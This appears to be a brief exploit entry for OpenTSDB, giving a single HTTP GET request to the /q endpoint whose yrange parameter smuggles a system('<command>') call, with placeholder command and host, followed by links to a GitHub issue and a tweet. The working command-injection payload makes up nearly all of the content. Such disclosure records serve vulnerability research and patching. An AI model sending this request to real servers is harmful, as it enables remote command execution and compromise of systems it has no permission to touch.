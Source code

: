### Exploit
```
GET /q?start=2000/10/21-00:00:00&end=2020/12/25-00:00:00&m=sum:ziq.kxt.ymi&o=&yrange=[0:system('<command>')]&wxh=1698x316&style=linespoint&json
Host: <rhost>
```

### References
* https://github.com/OpenTSDB/opentsdb/issues/2051  
* https://twitter.com/sec715/status/1355601224674942976/photo/1  


